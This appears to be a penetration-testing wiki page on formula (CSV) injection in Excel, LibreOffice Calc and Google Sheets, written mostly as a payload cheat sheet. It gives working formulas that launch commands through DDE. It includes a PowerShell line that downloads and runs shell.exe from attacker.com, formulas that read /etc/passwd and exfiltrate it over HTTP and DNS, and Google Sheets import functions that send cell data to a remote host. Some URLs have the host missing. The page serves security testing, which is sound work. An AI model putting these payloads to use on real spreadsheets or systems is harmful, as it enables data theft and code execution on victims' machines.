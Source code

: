 # Formula Injection

## Info

If your **input** is being **reflected** inside **CSV file**s \(or any other file that is probably going to be opened by **Excel**\), you maybe able to put Excel **formulas** that will be **executed** when the user **opens the file** or when the user **clicks on some link** inside the excel sheet.

{% hint style="danger" %}
Nowadays **Excel will alert** \(several times\) the **user when something is loaded from outside the Excel** in order to prevent him to from malicious action. Therefore, special effort on Social Engineering must be applied to he final payload. 
{% endhint %}

## Hyperlink

**The following example is very useful to exfiltrate content from the final excel sheet and to perform requests to arbitrary locations. But it requires the use to click on the link \(and accept the warning prompts\).**

Example taken from [https://payatu.com/csv-injection-basic-to-exploit](https://payatu.com/csv-injection-basic-to-exploit)

Let us assume an attack scenario of Student Record Management system of a school. The application allows teacher to enter details of students in the school. The attacker get access to the application and want that all the teacher using the application to get compromised. So the attacker tries to perform CSV injection attack through the web application.  
The attacker need to steal other student’s details. So the attacker uses the Hyperlink formula ad enter it while entering student details.

![](https://payatu.com/wp-content/uploads/2017/11/Selection_008.png)

When the teacher export the CSV and click on the hyperlink then the sensitive data is sent to the attacker’s server.

![](https://payatu.com/wp-content/uploads/2017/11/Selection_009.png)

CSV file exported contains malicious payload in it.

![](https://payatu.com/wp-content/uploads/2017/11/Selection_010.png)

The details of student in logged in the attackers web server.

![](https://payatu.com/wp-content/uploads/2017/11/Selection_011.png)

## RCE

For this example to work it's **needed to have enable the following configuration**:  
File → Options → Trust Center → Trust Center Settings → External Content → Enable Dynamic Data Exchange Server Launch  
or the use of an **old Excel version**.

The good news is that **this payload is executed automatically when the file is opened** \(f the user accepts the warnings\).

It's possible to execute a calculator with the following payload **`=cmd|' /C calc'!xxx`**

![](../.gitbook/assets/image%20%2825%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%282%29%20%281%29%20%281%29.png)

### More

```bash
=cmd|' /C powershell Invoke-WebRequest "http://www.attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```

## LFI

#### LibreOffice Calc

* This will read the 1st line from the local /etc/passwd file: `='file:///etc/passwd'#$passwd.A1`
* Ex-filtrate it: `=WEBSERVICE(CONCATENATE("http://:8080/",('file:///etc/passwd'#$passwd.A1)))`
* Ex-filtrate more than one line: `=WEBSERVICE(CONCATENATE("http://:8080/",('file:///etc/passwd'#$passwd.A1)&CHAR(36)&('file:///etc/passwd'#$passwd.A2)))`
* DNS Exfiltration: `=WEBSERVICE(CONCATENATE((SUBSTITUTE(MID((ENCODEURL('file:///etc/passwd'#$passwd.A19)),1,41),"%","-")),"."))`

**Analyzing the DNS ex-filtration payload:**

* ‘file:///etc/passwd’\#$passwd.A19 – Will read the 19th line from the local /etc/passwd file
* ENCODEURL\(‘file:///etc/passwd’\#$passwd.A19\) – URL encode the returned data
* MID\(\(ENCODEURL\(‘file:///etc/passwd’\#$passwd.A19\)\),1,41\) – Similar to substring, read data from 1st character to 41st – a very handy way to restrict the length of DNS hostnames \(254 character limit on FQDN and 63 characters for a label, i.e. subdomain\)
* SUBSTITUTE\(MID\(\(ENCODEURL\(‘file:///etc/passwd’\#$passwd.A19\)\),1,41\),”%”,”-“\) – replace all instances of % \(the special character from URL encoding\) with dash – this is ensure that only valid DNS characters are used
* CONCATENATE\(\(SUBSTITUTE\(MID\(\(ENCODEURL\(‘file:///etc/passwd’\#$passwd.A19\)\),1,41\),”%”,”-“\)\),”.&lt;FQDN&gt;”\) – Concatenate the output from the file \(after the above processing has taken place\) with the FQDN \(for which we have access to the host that is authoritative for the domain\)
* WEBSERVICE – Will make a request for this non-existent DNS name which we can then parse the logs \(or run tcpdump etc.\) on the DNS authoritative name server for which we have control

## Google Sheets OOB Data Exfiltration

Firstly, let’s introduce some of the more interesting functions.

**CONCATENATE**: Appends strings to one another.

```text
=CONCATENATE(A2:E2)
```

**IMPORTXML**: Imports data from various structured data types including XML, HTML, CSV, TSV, and RSS and ATOM XML feeds.

```text
=IMPORTXML(CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)), "//a/a10")
```

**IMPORTFEED**: Imports a RSS or ATOM feed.

```text
=IMPORTFEED(CONCAT("http://[remote IP:Port]//123.txt?v=", CONCATENATE(A2:E2)))
```

**IMPORTHTML**: Imports data from a table or list within an HTML page.

```text
=IMPORTHTML (CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)),"table",1)
```

**IMPORTRANGE**: Imports a range of cells from a specified spreadsheet.

```text
=IMPORTRANGE("https://docs.google.com/spreadsheets/d/[Sheet_Id]", "sheet1!A2:E2")
```

**IMAGE**: Inserts an image into a cell.

```text
=IMAGE("https://[remote IP:Port]/images/srpr/logo3w.png")
```

## References

{% embed url="https://notsosecure.com/data-exfiltration-formula-injection/" %}

